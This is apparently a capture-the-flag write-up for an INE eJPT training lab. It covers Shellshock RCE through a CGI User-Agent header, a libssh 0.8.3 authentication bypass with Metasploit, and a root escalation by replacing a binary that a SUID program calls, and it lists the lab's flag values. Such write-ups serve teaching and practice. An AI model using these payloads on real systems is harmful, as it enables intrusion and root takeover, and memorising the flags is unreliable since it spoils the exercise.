





# Host & Network Penetration Testing: System/Host-Based Attacks CTF 2

**Platform:** INE Security
**Course / Certification:** eJPT
**Category:** Host & Network Penetration Testing — System/Host-Based Attacks
**Difficulty:** Medium
**Date Completed:** 2026-10-28
**Flags Captured:** 4/4 ✅

---

## 📝 Objective / Summary

Two Linux targets are running on the same network. The goal is to exploit system/host-level vulnerabilities on both machines to uncover hidden flags. Target 1 runs a CGI-based web application vulnerable to **Shellshock**, while Target 2 runs **libssh 0.8.3** which is vulnerable to an authentication bypass. Post-exploitation on Target 2 requires **SUID binary privilege escalation** to reach the root flag.



---

## 🛠️ Tools Used
- `nmap` — Port scanning & service/OS detection
- `dirb` — Web directory enumeration
- `curl` — Manual HTTP request crafting & Shellshock PoC
- `msfconsole` — Metasploit Framework (Shellshock exploit + libssh auth bypass)
- `Meterpreter` — Post-exploitation shell (Target 1)
- Built-in shell commands — SUID privesc (Target 2)

---

## 🌐 Targets

| Host | IP | Key Service |
|---|---|---|
| target1.ine.local | 192.165.162.3 | Apache 2.4.6 / CGI — Shellshock |
| target2.ine.local | 192.165.162.4 | libssh 0.8.3 — Auth Bypass |

---

## 🔍 1. Enumeration & Discovery

### Target 1 — Nmap Scan
```bash
nmap -T5 -A target1.ine.local
```
```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.6 ((Unix))
|_http-title: Browser Detector
|_http-server-header: Apache/2.4.6 (Unix)
| http-methods:
|_  Potentially risky methods: TRACE
```
**Key findings:**
- Apache 2.4.6 (old version — check for known vulns)
- Title: "Browser Detector" → hints at User-Agent parsing via CGI
- TRACE method enabled (minor risk)

### Web Directory Enumeration
```bash
dirb http://target1.ine.local/
```
```
+ http://target1.ine.local/cgi-bin/   (CODE:403)
+ http://target1.ine.local/index.html (CODE:200)
==> DIRECTORY: http://target1.ine.local/static/  [LISTABLE]
```

### Inspecting index.html
```bash
curl -i http://target1.ine.local/
```
`index.html` contains a meta refresh + JS redirect to `/browser.cgi` — the app parses the **User-Agent header** via a CGI script. This is the classic setup for **Shellshock (CVE-2014-6271)**.

---

## 🚪 2. Exploitation — Target 1: Shellshock (CVE-2014-6271)

### Manual Shellshock Proof-of-Concept
```bash
curl -i -A '() { :;}; echo; echo; /bin/bash -c "id"' \
  http://target1.ine.local/browser.cgi
```
**Response:**
```
HTTP/1.1 200 OK
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```
✅ RCE confirmed via malicious `User-Agent` header. The CGI script passes the header to bash, triggering the Shellshock payload.

### Metasploit — Getting a Meterpreter Shell
```bash
msfconsole
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOSTS target1.ine.local
set LHOST 192.165.162.2
set TARGETURI /browser.cgi
run
```
```
[*] Meterpreter session 1 opened (192.165.162.2:4444 -> 192.165.162.3:39242)
```

### Flag Hunting on Target 1
```
meterpreter > ls                    # /opt/apache/htdocs → .flag.txt found
meterpreter > cat .flag.txt         # FLAG2
meterpreter > cd /
meterpreter > cat flag.txt          # FLAG1
```




---

## 🔍 3. Enumeration — Target 2: libssh Auth Bypass

### Nmap Scan
```bash
nmap -T5 -A target2.ine.local
```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     libssh 0.8.3 (protocol 2.0)
```
**libssh 0.8.3** → vulnerable to **CVE-2018-10933** (authentication bypass by sending `SSH2_MSG_USERAUTH_SUCCESS` directly to the server without credentials).

---

## 🚪 4. Exploitation — Target 2: libssh Authentication Bypass (CVE-2018-10933)

```bash
msfconsole
use auxiliary/scanner/ssh/libssh_auth_bypass
set RHOSTS target2.ine.local
set SPAWN_PTY true          # Required — plain shell session fails without PTY
run
```
```
[*] Command shell session 2 opened (192.165.162.2:35353 -> 192.165.162.4:22)
```
> 💡 **Note:** First attempt with `SPAWN_PTY false` failed (`session is not valid`). Setting `SPAWN_PTY true` spawned a working PTY shell.

```bash
sessions -i 2
```
Dropped into shell as `user`.

### Flag 3 — User Home Directory
```bash
ls /home          # temp  user
cat flag.txt      # FLAG3
```



---

## 📈 5. Privilege Escalation — SUID Binary Hijack

### Investigating the Home Directory
```bash
ls -la /home/user
```
```
-rw-r--r--  root root   flag.txt
-rwx------  root root   greetings       <- executable, root-owned
-rwsr-xr-x  root root   welcome         <- SUID bit set!
```
The binary `welcome` has the **SUID bit set** (`rws`), meaning it runs as root. Running it prints:
```
Welcome to Attack Defense Labs
```
The `welcome` binary internally calls `greetings` using a **relative path** (no absolute path). This is exploitable via **PATH hijacking / binary replacement**.

### Exploitation — Replace `greetings` with bash
```bash
rm -rf greetings              # Remove the original greetings binary
cp /bin/bash greetings        # Replace with bash
./welcome                     # Execute the SUID binary → spawns bash as root
```
```
[root@target2 ~]# whoami    → root
```
✅ **Root shell obtained** via SUID binary relative path hijack.

### Flag 4 — Root Directory
```bash
cd /root
cat flag.txt     # FLAG4
```



---

## 🏁 6. Flags Captured

| Flag | Location | Value |
|---|---|---|
| **FLAG1** | target1: `/flag.txt` | `FLAG1_c85672fc4ec74c7388c9f747c99c5b65` |
| **FLAG2** | target1: `/opt/apache/htdocs/.flag.txt` | `FLAG2_01c2848c4be84659bebe1bffae4a67db` |
| **FLAG3** | target2: `/home/user/flag.txt` | `FLAG3_a5cabb1560c04212a5783c844fb1ac08` |
| **FLAG4** | target2: `/root/flag.txt` | `FLAG4_cf80408e77854dc997360a42576ac40f` |

---

## 🧠 Key Learnings & Takeaways

- **Shellshock (CVE-2014-6271):** When a web application uses Apache mod_cgi with bash as the CGI interpreter, the `User-Agent` (and other) headers are passed as environment variables to bash — making it trivially injectable. Always check for old Apache + CGI setups.
- **CGI script title clue:** The page title "Browser Detector" was a direct hint that the server parses the User-Agent — a classic Shellshock trigger indicator.
- **libssh Auth Bypass (CVE-2018-10933):** libssh 0.8.3 allows an attacker to authenticate by sending `SSH2_MSG_USERAUTH_SUCCESS` without a password. `SPAWN_PTY true` is required in Metasploit for a stable shell.
- **SUID Binary Privesc:** When a SUID binary calls another binary using a **relative path**, you can replace that binary with `/bin/bash` to escalate to root. Always check SUID binaries with `find / -perm -4000 2>/dev/null`.
- **Hidden files matter:** FLAG2 was in `.flag.txt` (dotfile) — always run `ls -la` and check for hidden files, not just `ls`.
